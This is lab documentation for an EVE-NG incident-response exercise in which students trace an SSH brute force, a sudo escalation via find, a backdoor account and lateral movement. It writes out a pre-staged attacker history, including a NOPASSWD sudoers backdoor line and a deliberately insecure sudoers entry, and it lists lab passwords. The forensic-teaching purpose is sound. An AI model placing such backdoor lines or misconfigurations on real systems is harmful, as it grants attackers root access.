
\includegraphics[width=0.95\textwidth]{lab3-topology.png}
\caption{EVE-NG topology --- Lab 3}
\end{figure}

\begin{lstlisting}
Homelab LAN (192.168.0.0/24)
        |
[pfSense-LAB3]  WAN: 192.168.0.x (DHCP)  $\leftarrow$ student entry (DNAT TCP:22 $\rightarrow$ Server-Web)
        |        LAN: 172.16.2.1/30
[VyOS-LAB3]
  eth0: 172.16.2.2/30     $\leftarrow$ uplink to pfSense
  eth1: 192.168.50.1/24   $\leftarrow$ Net-Servers
  eth2: 192.168.60.1/24   $\leftarrow$ Net-Internal
        |              |
[Server-Web]      [Server-DB]
192.168.50.10     192.168.60.10
Primary target    Lateral movement
auth.log          clients.db
bash history      exfil_marker
\end{lstlisting}

\subsection{Nodes}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
OS
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
IP
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB3 & pfSense CE & WAN: 192.168.0.x / LAN: 172.16.2.1/30 & Perimeter firewall · DNAT student entry \\
VyOS-LAB3 & VyOS rolling & 172.16.2.2 / 192.168.50.1 / 192.168.60.1 & Router · SNAT \\
Server-Web & Ubuntu Server 24.04 & 192.168.50.10 & Primary forensic target (helix-web) \\
Server-DB & Ubuntu Server 24.04 & 192.168.60.10 & Lateral movement target (helix-db) \\
\end{longtable}}

\subsection{Network segments}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Segment & Subnet & Gateway & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Link & 172.16.2.0/30 & 172.16.2.1 & pfSense $\leftrightarrow$ VyOS \\
Net-Servers & 192.168.50.0/24 & 192.168.50.1 & Server-Web \\
Net-Internal & 192.168.60.0/24 & 192.168.60.1 & Server-DB \\
Homelab & 192.168.0.0/24 & 192.168.0.1 & WAN · Student entry \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Learning objectives}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Read and correlate \texttt{auth.log} entries to identify SSH brute-force patterns
\item
  Detect privilege escalation via \texttt{sudo} misconfiguration in \texttt{sudoers}
\item
  Identify persistence mechanisms (backdoor accounts, cron jobs)
\item
  Trace lateral movement between servers using network logs and bash history
\item
  Reconstruct a complete attacker timeline from pre-staged evidence
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Investigation flow}

\begin{lstlisting}
1. SSH into Server-Web via pfSense DNAT (student entry point) --- `ssh analyst@<pfSense-WAN-IP>`
2. Analyse /var/log/auth.log       $\rightarrow$ brute-force source IP + success timestamp
3. Review /home/devops/.bash_history $\rightarrow$ privilege escalation commands
4. Check /etc/sudoers              $\rightarrow$ misconfigured entry (sudo find $\rightarrow$ root)
5. Find /etc/passwd + shadow       $\rightarrow$ backdoor account created post-compromise
6. SSH to Server-DB (192.168.60.10)$\rightarrow$ lateral movement confirmed
7. Locate /opt/helix/data/clients.db $\rightarrow$ exfiltrated database
8. Find /opt/helix/data/.exfil_marker $\rightarrow$ exfiltration evidence
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab startup checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Start all nodes from EVE-NG web UI
\item
  Verify pfSense DNAT rule forwards TCP 22 (WAN) $\rightarrow$ Server-Web (192.168.50.10)
\item
  Student entry: \texttt{ssh\ analyst@\textless{}pfSense-WAN-IP\textgreater{}} --- password: \texttt{An@lyst2024}
\item
  Evidence is pre-staged --- no additional setup required

  \begin{itemize}
  \tightlist
  \item
    \textbf{Server-Web entry}: \texttt{analyst} / \texttt{An@lyst2024} (via pfSense DNAT)
  \item
    \textbf{Server-DB}: reachable from Server-Web once lateral movement path is found
  \end{itemize}
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Evidence artefacts}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.54\linewidth}
  >{\raggedright\arraybackslash}p{0.19\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Artefact
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Location
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Contains
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\texttt{auth.log} & \path{/var/log/auth.log} (Server-Web) & SSH brute-force + successful login \\
\path{bash_history} & \path{/home/devops/.bash_history} & Post-exploitation commands \\
\texttt{clients.db} & \path{/opt/helix/data/clients.db} (Server-DB) & Exfiltrated client data \\
\path{exfil_marker} & \path{/opt/helix/data/.exfil_marker} (Server-DB) & Exfiltration timestamp \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Files}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Description
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{LAB3-IncidentResponse-HELIX.unl} & EVE-NG topology --- import directly \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab3/server-web}{\path{nodes/Lab3/server-web/}} & Pre-staged auth.log, bash history, sudoers \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab3/server-db}{\path{nodes/Lab3/server-db/}} & clients.db, exfil\_marker, network config \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab3/vyos}{\path{nodes/Lab3/vyos/}} & VyOS config.boot \\
\end{longtable}}

\section{LAB3 --- Infrastructure Reference}

Complete infrastructure reference for LAB3 HELIX Systems. For instructor/lab admin use.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Node inventory}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}@{}}
\toprule\noalign{}
Node & EVE-NG ID & Console & Image & Status \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB3 & 1 & VNC 32769 & pfsense-ce & Operational \\
VyOS-LAB3 & 2 & Telnet 32770 & vyos-rolling & Operational \\
Server-Web & 3 & VNC 32771 & linux-ubuntu-server-24.04 & Operational \\
Server-DB & 4 & VNC 32772 & linux-ubuntu-server-24.04 & Operational \\
\end{longtable}}

\subsection{Network addressing}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Network & Subnet & Bridge & Host IP \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Servers & 192.168.50.0/24 & vnet0\_2 & 192.168.50.254 \\
Net-Internal & 192.168.60.0/24 & vnet0\_3 & 192.168.60.254 \\
Net-Link (pfSense$\leftrightarrow$VyOS) & 172.16.2.0/30 & --- & --- \\
\end{longtable}}

\subsection{Credentials (full reference)}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
System & User & Password & Access \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
EVE-NG host & root & SSH key id\_ed25519\_eve-ng & ssh eve-ng \\
pfSense-LAB3 & admin & pfsense & VNC 32769 \\
VyOS-LAB3 & vyos & vyos & Telnet 32770 \\
Server-Web & ubuntu & ubuntu & VNC 32771 (installer default) \\
Server-Web & analyst & An@lyst2024 & SSH via pfSense DNAT \\
Server-Web & devops & D3v0ps\#2023 & Compromised (attacker-used) \\
Server-Web & maint & --- & Backdoor account \\
Server-DB & ubuntu & ubuntu & VNC 32772 \\
Server-DB & analyst & An@lyst2024 & SSH from Server-Web \\
Server-DB & devops & D3v0ps\#2023 & Compromised (reused password) \\
\end{longtable}}

\subsection{Pre-staged evidence}

\subsubsection{\texorpdfstring{Server-Web ({\ttfamily 192.168.50.10})}{Server-Web (192.168.50.10)}}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.54\linewidth}
  >{\raggedright\arraybackslash}p{0.19\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Artefact
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Path
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Content
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
SSH brute-force + login & \path{/var/log/auth.log} & 25 failed + 1 successful login for \texttt{devops} from \path{185.220.101.47} \\
Privilege escalation & \path{/var/log/auth.log} & \path{sudo /usr/bin/find} by \texttt{devops} at 03:18 \\
Backdoor creation & \path{/var/log/auth.log} & \texttt{useradd\ maint} at 03:19 \\
Attacker command history & \path{/home/devops/.bash_history} & Full post-escalation command sequence \\
Backdoor account & \path{/etc/passwd} + \path{/etc/sudoers.d/maint} & \texttt{maint} user with \texttt{NOPASSWD:\ ALL} \\
\end{longtable}}

\subsubsection{\texorpdfstring{Server-DB ({\ttfamily 192.168.60.10})}{Server-DB (192.168.60.10)}}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Artefact
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Path
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Content
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Lateral movement login & \path{/var/log/auth.log} & \texttt{devops} login from \path{192.168.50.10} at 03:21 \\
HELIX client database & \path{/opt/helix/data/clients.db} & SQLite DB with fictional client records \\
Exfiltration marker & \path{/opt/helix/data/.exfil_marker} & \texttt{185.220.101.47\ -\ 2026-04-24\ 03:22\ -\ data\ accessed} \\
\end{longtable}}

\subsection{Lab startup procedure}

\begin{lstlisting}
# 1. EVE-NG host --- restore bridge IPs after reboot
# (udev rule 99-lab3-bridges.rules should auto-apply)
# Verify:
ip addr show vnet0_2  # should have 192.168.50.254/24
ip addr show vnet0_3  # should have 192.168.60.254/24

# 2. Start all EVE-NG nodes (pfSense, VyOS, Server-Web, Server-DB)
# All are pre-configured --- just power on from EVE-NG UI

# 3. Verify student entry point
ssh analyst@<pfSense-WAN-IP>
# Should land on helix-web prompt
\end{lstlisting}

\begin{lstlisting}
The full student SSH chain (homelab $\rightarrow$ pfSense DNAT $\rightarrow$ Server-Web $\rightarrow$ Server-DB pivot) has been verified end-to-end in a live session.
\end{lstlisting}

\section{LAB3 --- VyOS Router}

VyOS-LAB3 provides inter-segment routing and SNAT masquerade for both internal networks. No DHCP or DNS forwarding --- all addresses are static.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Interfaces}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Interface & IP & Network & Description \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
eth0 & 172.16.2.2/30 & Net-Link & Uplink to pfSense LAN \\
eth1 & 192.168.50.1/24 & Net-Servers & Gateway for Server-Web \\
eth2 & 192.168.60.1/24 & Net-Internal & Gateway for Server-DB \\
\end{longtable}}

\subsection{Access}

\begin{lstlisting}
# Console via EVE-NG telnet:
ssh eve-ng "telnet localhost 32770"
# user: vyos / vyos
\end{lstlisting}

\subsection{Interface and routing configuration}

\begin{lstlisting}
set interfaces ethernet eth0 address '172.16.2.2/30'
set interfaces ethernet eth0 description 'UPLINK-PFSENSE'
set interfaces ethernet eth1 address '192.168.50.1/24'
set interfaces ethernet eth1 description 'Net-Servers'
set interfaces ethernet eth2 address '192.168.60.1/24'
set interfaces ethernet eth2 description 'Net-Internal'

set protocols static route 0.0.0.0/0 next-hop 172.16.2.1
\end{lstlisting}

\subsection{NAT Source rules (SNAT masquerade)}

\begin{lstlisting}
set nat source rule 10 outbound-interface name 'eth0'
set nat source rule 10 source address '192.168.50.0/24'
set nat source rule 10 translation address 'masquerade'

set nat source rule 20 outbound-interface name 'eth0'
set nat source rule 20 source address '192.168.60.0/24'
set nat source rule 20 translation address 'masquerade'
\end{lstlisting}

\subsection{SSH service}

\begin{lstlisting}
set service ssh
commit
save
\end{lstlisting}

\begin{lstlisting}
Unlike LAB2, VyOS-LAB3 provides neither DHCP nor DNS forwarding. All node IPs are configured statically via Netplan.
\end{lstlisting}

\section{LAB3 --- pfSense Firewall}

pfSense-LAB3 is the perimeter firewall and student entry point. The key feature is a \textbf{DNAT rule} that forwards incoming TCP:22 directly to Server-Web, simulating the realistic scenario where an analyst connects to the affected host.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Access}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Interface & Assignment & IP \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
vtnet0 & WAN & DHCP from homelab (\textasciitilde192.168.0.x) \\
vtnet1 & LAN & 172.16.2.1/30 (static) \\
\end{longtable}}

\subsection{Required fixes (applied at setup)}

Same two corrections as LAB2:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{Block private networks} --- disabled on WAN (WAN shares 192.168.0.0/24 = RFC 1918 space)
\item
  \textbf{reply-to} directive --- removed from WAN rules (causes asymmetric routing in single-ISP setups)
\end{enumerate}

\subsection{DNAT rule --- student entry point}

Port forward on WAN interface:

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Field & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Interface & WAN \\
Protocol & TCP \\
Destination port & 22 \\
Redirect target IP & 192.168.50.10 (Server-Web) \\
Redirect target port & 22 \\
\end{longtable}}

Students connect with:

\begin{lstlisting}
ssh analyst@<pfSense-WAN-IP>
# Password: An@lyst2024
\end{lstlisting}

The connection lands directly on \texttt{helix-web}, the primary forensic target.

\subsection{Static routes}

Two static routes pointing both internal segments via VyOS:

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Destination & Gateway \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
192.168.50.0/24 & 172.16.2.2 (VyOS eth0) \\
192.168.60.0/24 & 172.16.2.2 (VyOS eth0) \\
\end{longtable}}

\begin{lstlisting}
pfSense CE outputs only to VGA framebuffer --- the EVE-NG telnet console (port 32769) is silent.
To interact: connect via raw socket and send `Ctrl-A C` to enter QEMU monitor mode.
Use `xp /40wx 0xb8000` to read the VGA text buffer and `sendkey` to inject keystrokes.
\end{lstlisting}

\section{LAB3 --- Server-Web (helix-web)}

Server-Web is the \textbf{primary forensic target}. It contains all the evidence of the initial attack phases: brute-force, successful login, privilege escalation, and backdoor creation.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hostname & helix-web \\
OS & Ubuntu Server 24.04 LTS \\
IP & 192.168.50.10/24 \\
Gateway & 192.168.50.1 (VyOS eth1) \\
\end{longtable}}

\subsection{Network config (Netplan)}

\begin{lstlisting}
network:
  version: 2
  ethernets:
    ens3:
      addresses:
        - 192.168.50.10/24
      routes:
        - to: default
          via: 192.168.50.1
\end{lstlisting}

\subsection{OS accounts}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Account
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Password
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
ubuntu & ubuntu & Default installer account \\
analyst & An@lyst2024 & \textbf{Student entry} --- member of \texttt{adm} group (can read auth.log) \\
devops & D3v0ps\#2023 & Compromised developer account \\
maint & --- & \textbf{Backdoor} --- created by attacker at 03:19 \\
\end{longtable}}

\begin{lstlisting}
`/var/log/auth.log` is owned `root:adm` mode `640`. The `analyst` user must be in the `adm` group to read it. Applied via nbd chroot:
```bash
sudo chroot /mnt/lab3-web usermod -aG adm analyst
```
\end{lstlisting}

\subsection{Sudoers misconfiguration (privilege escalation vector)}

\begin{lstlisting}
# /etc/sudoers.d/devops
devops ALL=(ALL) NOPASSWD: /usr/bin/find
\end{lstlisting}

\texttt{find}'s \texttt{-exec} flag allows arbitrary command execution as root. The attacker ran:

\begin{lstlisting}
sudo /usr/bin/find / -name "*.conf" -exec cat  \;
\end{lstlisting}

\subsection{Pre-staged evidence in auth.log}

\begin{lstlisting}
# Brute-force phase (03:05--03:16): 25 entries like:
Apr 24 03:05:03 helix-web sshd[1201]: Failed password for devops from 185.220.101.47 port 42001 ssh2

# Successful login (03:17):
Apr 24 03:17:42 helix-web sshd[1231]: Accepted password for devops from 185.220.101.47 port 43100 ssh2

# Privilege escalation (03:18):
Apr 24 03:18:01 helix-web sudo: devops : TTY=pts/0 ; PWD=/home/devops ; USER=root ; COMMAND=/usr/bin/find

# Backdoor creation (03:19):
Apr 24 03:19:15 helix-web useradd[2041]: new user: name=maint, UID=1003, GID=1003, home=/home/maint, shell=/bin/bash
\end{lstlisting}

\subsection{Pre-staged command history (/home/devops/.bash\_history)}

\begin{lstlisting}
id
whoami
sudo /usr/bin/find / -name "*.conf" -exec cat  \;
useradd -m maint
echo "maint ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/maint
chmod 440 /etc/sudoers.d/maint
exit
\end{lstlisting}

\subsection{Useful investigation commands}

\begin{lstlisting}
# Count brute-force attempts
grep 'Failed password for devops' /var/log/auth.log | wc -l

# Find successful login + escalation
grep -E 'Accepted|sudo' /var/log/auth.log

# Find backdoor account creation
grep 'useradd\|maint' /var/log/auth.log

# Read attacker command history (needs sudo as analyst)
sudo cat /home/devops/.bash_history

# Check sudoers drop-in
sudo cat /etc/sudoers.d/devops
sudo cat /etc/sudoers.d/maint
\end{lstlisting}

\section{LAB3 --- Server-DB (helix-db)}

Server-DB is the \textbf{lateral movement and data exfiltration target}. It holds the HELIX client database and the exfiltration marker that confirms the attacker accessed sensitive data after pivoting from Server-Web.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Parameter
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Value
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hostname & helix-db \\
OS & Ubuntu Server 24.04 LTS \\
IP & 192.168.60.10/24 \\
Gateway & 192.168.60.1 (VyOS eth2) \\
Segment & Net-Internal (isolated --- not directly reachable from homelab) \\
\end{longtable}}

\subsection{Network config (Netplan)}

\begin{lstlisting}
network:
  version: 2
  ethernets:
    ens3:
      addresses:
        - 192.168.60.10/24
      routes:
        - to: default
          via: 192.168.60.1
\end{lstlisting}

\subsection{Accounts}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
Account & Password & Role \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
ubuntu & ubuntu & Default installer account \\
analyst & An@lyst2024 & Internal access (student pivot) \\
devops & D3v0ps\#2023 & \textbf{Reused password} --- same as Server-Web \\
\end{longtable}}

\subsection{Access from Server-Web}

\begin{lstlisting}
# From helix-web as analyst:
ssh analyst@192.168.60.10
# Password: An@lyst2024
\end{lstlisting}

\subsection{Pre-staged evidence in auth.log}

\begin{lstlisting}
# Lateral movement login (03:21):
Apr 24 03:21:03 helix-db sshd[987]: Accepted password for devops from 192.168.50.10 port 51234 ssh2
\end{lstlisting}

Source \path{192.168.50.10} = Server-Web internal IP --- confirms pivot from compromised host.

\subsection{HELIX data directory}

\begin{lstlisting}
ls -la /opt/helix/data/
\end{lstlisting}

\begin{lstlisting}
total 28
drwxr-xr-x 2 root root 4096 Apr 24 03:22 .
drwxr-xr-x 3 root root 4096 Apr 24 03:10 ..
-rw-r--r-- 1 root root 8192 Apr 24 03:10 clients.db
-rw-r--r-- 1 root root   47 Apr 24 03:22 .exfil_marker
\end{lstlisting}

\begin{lstlisting}
cat /opt/helix/data/.exfil_marker
# Output: 185.220.101.47 - 2026-04-24 03:22 - data accessed
\end{lstlisting}

The \path{.exfil_marker} timestamp (03:22) is consistent with the lateral movement login (03:21), confirming the attack sequence.

\texttt{clients.db} is an SQLite database with fictional HELIX Systems client records. Its presence establishes the data-access motive.

\subsection{Key finding}

The lateral movement succeeded purely due to \textbf{password reuse} --- \texttt{D3v0ps\#2023} was the same on both servers. Network segmentation (Server-DB is on Net-Internal, not directly reachable externally) did \textbf{not} prevent the attack once Server-Web was compromised.

\section{LAB3 --- Evidence Walkthrough}

Step-by-step investigation guide. Each step corresponds to specific log artefacts that the student is expected to locate, interpret, and document.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Entry point}

\begin{lstlisting}
ssh analyst@<pfSense-WAN-IP>
# Password: An@lyst2024
# You land on: analyst@helix-web:~$
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 1 --- Establish context}

Before touching logs, orient yourself on the system.

\begin{lstlisting}
hostname
# helix-web

uname -a
# Linux helix-web 6.8.x-xx-generic

grep -v nologin /etc/passwd | grep -v false
# root, ubuntu, analyst, devops, maint
\end{lstlisting}

\begin{lstlisting}
The `maint` account is not a standard system account and has no documented business purpose. Note it immediately.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 2 --- Brute-force identification}

\begin{lstlisting}
grep 'Failed password' /var/log/auth.log | head -5
# Apr 24 03:05:03 helix-web sshd[1201]: Failed password for devops from 185.220.101.47 ...
# Apr 24 03:05:06 helix-web sshd[1202]: Failed password for devops from 185.220.101.47 ...

grep 'Failed password for devops' /var/log/auth.log | wc -l
# 25
\end{lstlisting}

25 consecutive failures from \path{185.220.101.47} across a sustained window = \textbf{brute-force attack}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 3 --- Successful login and privilege escalation}

\begin{lstlisting}
grep -E 'Accepted|sudo' /var/log/auth.log
# Apr 24 03:17:42 helix-web sshd[1231]: Accepted password for devops from 185.220.101.47 ...
